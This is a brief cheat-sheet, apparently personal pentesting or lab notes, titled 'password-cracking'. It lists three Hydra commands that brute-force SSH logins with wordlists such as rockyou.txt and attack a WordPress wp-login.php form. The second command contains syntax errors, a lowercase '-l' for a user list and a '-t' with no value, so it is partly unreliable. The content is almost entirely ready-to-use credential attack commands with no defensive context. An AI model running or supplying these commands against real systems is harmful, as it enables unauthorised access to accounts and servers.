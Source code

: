 ```yaml
---
category: Uncategorized
tags: []
---
```

#password-cracking
- hydra -l user -P pass.txt -t 10 172.21.0.0 ssh -s 22

- hydra -l users.txt -p /usr/share/wordlists/rockyou.txt -t 172.21.0.0 ssh -s 22

- hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'